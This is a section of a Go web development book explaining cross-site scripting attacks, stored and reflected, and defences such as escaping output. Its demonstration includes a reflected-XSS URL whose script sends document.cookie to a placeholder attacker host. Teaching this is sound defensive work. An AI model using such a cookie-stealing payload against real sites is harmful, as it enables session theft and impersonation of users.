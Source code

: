 # 9.3 XSS attacks

With the development of Internet technology, web applications are often packed with dynamic content to improve user experience. Dynamic content is content that reacts and changes according to user requests and actions. Dynamic sites are often susceptible to cross-site scripting attacks (often referred to by security experts in its abbreviated form, XSS), something which static websites are completely unaffected by.

## What is XSS

As mentioned, the term XSS is an acronym for Cross-Site Scripting, which is a type of attack common on the web. In order not to confuse it with another common web acronym, CSS (Cascading Style Sheets), we use an `X` instead of a `C` for the cross in cross-site scripting. XSS is a common web security vulnerability which allows attackers to inject malicious code into webpages. Unlike most types of attacks which generally involve only an attacker and a victim, XSS involves three parties: an attacker, a client and a web application. The goal of an XSS attack is to steal cookies stored on clients by web applications for the purpose of reading sensitive client information. Once an attacker gets ahold of this information, they can impersonate users and interact with websites without their knowledge or approval.

XSS attacks can usually be divided into two categories: one is a stored XSS attack. This form of attack arises when users are allowed to input data onto a public page, which after being saved by the server, will be returned (unescaped) to other users that happen to be browsing it. Some examples of the types of pages that are often affected include comments, reviews, blog posts and message boards. The process often goes like this: an attacker enters some html followed by a hidden `<script>` tag containing some malicious code,  then hits save. The web application saves this to the database. When another user requests this page, the application queries this tainted data from the database and serves the page to the user. The attacker's script then executes arbitrary code on the client's computer. 

The other type is a reflected XSS attack. The main idea is to embed a malicious script directly into the query parameters of a URL address. A server that immediately parses this data into a page of results and returns it (to the client who made the request) unsanitized, can unwittingly cause the client's computer to execute this code. An attacker can send a user a legitimate looking link to a trusted website with the encoded payload; clicking on this link can cause the user's browser to execute the malicious script.

XSS present the main means and ends as follows:

- Theft of cookies, access to sensitive information.
- The use of embedded Flash, through crossdomain permissions, can also be used by an attacker to obtain higher user priviledges. This also applies for other similar attack vectors such as Java and VBScript. 
- The use of iframes, frames, XMLHttpRequests, etc., can allow an attacker to assume the identity of a user to perform administrative actions such as micro-blogging, adding friends, sending private messages, and other routine operations. A while ago, the Sina microblogging platform suffered from this type of XSS vulnerability.
- When many users visit a page affected by an XSS attack, the effect on some smaller sites can be comparable to that of a DDoS attack.

## XSS principles

Web applications that return requested data to users without first inspecting and filtering it can allow malicious users to inject scripts (typically embedded inside HTML within `<script>` tags) onto other users' browsers. When this malicious code is rendered on a user's browser without first having been escaped from, the user's browser will interpret this code: this is the definition of an XSS attack, and this type of mistake is the leading cause of XSS vulnerabilities.

Let's go through the process of a reflective XSS attack. Let's say there's a website that outputs a user's name according to the URL query parameters; access the following URL `http://127.0.0.1/?name=astaxie` will cause the server to output the following:

	hello astaxie

Let's say we pass the following parameter instead, accessing the same url: `http://127.0.0.1/?name=<script>alert('astaxie,xss')</script>`. If this causes the browser to produce an alert pop-up box, we can confirm that the site is vulnerable to XSS attacks. So how do malicious users steal cookies using the same type of attack? 

Just like before, we have a URL: 

`http://127.0.0.1/?name=&#60;script&#62;document.location.href='http://www.xxx.com/cookie?'+document.cookie&#60;/script&#62;`

By clicking on this URL, you'd be sending the current cookie to the specified site: `www.xxx.com`. You might be wondering, why would anybody click on such a strange looking URL in the first place? While it's true that this kind of URL will make most people skeptical, if an attacker were to use one of the many popular URL shortening services to obscure it, would you still be able to see it? Most attackers would obfuscate the URL in one way or another, and you'd only know the legitimacy of the link after clicking on it. However by this point, cookie data will have already been sent to the 3rd party website, compromising your sensitive information. You can use tools like Websleuth to audit the security of your web applications for these types of vulnerabilities. 

For a more detailed analysis on an XSS attack, have a look at the article: "[ Sina microblogging XSS event analysis ] (http://www.rising.com.cn/newsletter/news/2011-08-18/9621.html)"

## How to prevent XSS

The answer is simple: never trust user input, and always filter out all special characters in any input data you may receive. This will eliminate the majority of XSS attacks.

Use the following techniques to defend against XSS attacks:

- Filter special characters

One way to avoid XSS is to filter user-supplied content. The Go language provides some HTML filtering functions in its `text/template` packge such as `HTMLEscapeString` and `JSEscapeString`, to name a few.

- Specify the content type in your HTTP headers 

`w.Header().Set("Content-Type","text/javascript")`

This allows client browsers to parse the response as javascript code (applying the neccessary filters) instead of rendering the content in an unspecified and potentially dangerous manner.

## Summary

Introducing XSS vulnerabilities is a very real hazard when developping web applications. It is important to remember to filter all data, especially before outputting it to clients; this is now a well-established means of preventing XSS.

## Links

- [Directory](preface.md)
- Previous section: [Filter inputs](09.2.md)
- Next section: [SQL injection](09.4.md)

